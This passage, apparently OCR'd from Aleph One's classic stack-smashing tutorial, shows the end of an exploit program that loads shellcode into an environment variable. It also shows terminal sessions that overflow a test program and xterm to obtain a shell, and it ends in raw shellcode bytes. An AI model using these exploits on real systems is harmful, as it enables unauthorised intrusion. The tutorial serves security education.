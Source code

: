   buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------

   A good selection for our buffer size is about 100 bytes more than the size
of the buffer we are trying to overflow.  This will place our code at the end
of the buffer we are trying to overflow, giving a lot of space for the NOPs,
but still overwriting the return address with the address we guessed.  The
buffer we are trying to overflow is 512 bytes long, so we'll use 612.  Let's
try to overflow our test program with our new exploit:

------------------------------------------------------------------------------
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
------------------------------------------------------------------------------

   Whoa!  First try!  This change has improved our chances a hundredfold. 
Let's try it now on a real case of a buffer overflow.  We'll use for our
demonstration the buffer overflow on the Xt library.  For our example, we'll 
use xterm (all programs linked with the Xt library are vulnerable). You must
be running an X server and allow connections to it from the localhost.  Set
your DISPLAY variable accordingly.

------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "�^1�FF
                           �
                            �V

�1��@������/bin/sh���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








